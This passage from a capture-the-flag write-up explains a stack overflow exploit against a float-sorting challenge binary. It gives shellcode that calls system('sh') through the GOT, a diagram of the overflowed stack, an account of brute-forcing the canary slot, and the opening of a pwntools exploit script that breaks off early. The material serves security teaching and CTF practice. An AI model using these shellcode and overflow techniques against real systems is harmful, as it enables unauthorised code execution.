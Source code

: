 ```nasm
b8 ?? ?? ?? ??  mov eax, addr_of_sh
bb xx xx .. ..  mov ebx, ignored
50              push eax
bb .. .. xx xx  mov ebx, ignored
b8 ?? ?? ?? ??  mov eax, got[system]
bb xx xx .. ..  mov ebx, ignored
ff d0           call eax

addr_of_sh:     "sh\x00"
```

The `sh\x00` string can be placed below our payload in a seperate double value.

Putting it all together, after our attack runs, the stack looks like this:

```
|ffffffff|ffffffff|ffffffff|ffffffff|ffffffff|ffffffff|eeeeffff|seeeeeee|
| 1 byte | 1 byte | 1 byte | 1 byte | 1 byte | 1 byte | 1 byte | 1 byte |
| --------------------    other stack variables    -------------------- |
| --------------------           ...               -------------------- |      ...
|   b8   |   ??   |   ??   |   ??   |   ??   |   bb   |   xx   |   xx   | stack_buffer[0]
|   ..   |   ..   |   50   |   bb   |   ..   |   ..   |   xx   |   xx   | stack_buffer[1]
|   b8   |   ??   |   ??   |   ??   |   ??   |   bb   |   xx   |   xx   | stack_buffer[2]
|   ..   |   ..   |   ff   |   d0   |   ..   |   ..   |   xx   |   xx   | stack_buffer[3]
|   's'  |   'h'  |   00   |   ..   |   ..   |   ..   |   xx   |   xx   | stack_buffer[4]
| --------------------           ...               -------------------- |      ...
|   ..   |   ..   |   ..   |   ..   |   ..   |   ..   |   xx   |   xx   | stack_buffer[63]
|   ..   |   ..   |   ..   |   ..   |   ..   |   ..   |   xx   |   xx   | stack_buffer[64]
|   ..   |   ..   |   ..   |   ..   |      stack canary (4 bytes)       | stack_buffer[65]
|   ..   |   ..   |   ..   |   ..   |   addr of any `ret` instruction   | stack_buffer[66]
|      addr off stack_buffer[0]     |   ..   |   ..   |   xx   |   xx   | stack_buffer[67]
```

As you can see, we are free to insert into the `xx` bytes whatever we want
and the shellcode stays the same. This is very useful as we need our code to
be sorted in this exact order. To do so, we choose ascending exponents at the
start and very high exponents at the last number. Now we run the exploit
multiple times and try to get lucky with the stack canary. Because the value of
the stack canary is random, we have only a slim chance of having it being sorted
into the correct slot.

After about 80-100 tries, we finally got lucky and got a shell. We then just
had to print the flag via `cat flag.txt`.


## Files

The attack script could have been written with more emphasis on readability,
but during a CTF this is often times not possible.

### exp.py

```python
from pwn import *
import struct
import binascii

context.terminal = ["gnome-terminal", "--", "bash", "-c"]

#context.log_level = 'info'

count = 64

def float_bytes(bs, idx):
    assert 1 <= idx <= 0xffe
    return bs.ljust(6, b"\x90") + (idx << 4).to_bytes(2, 'little')
```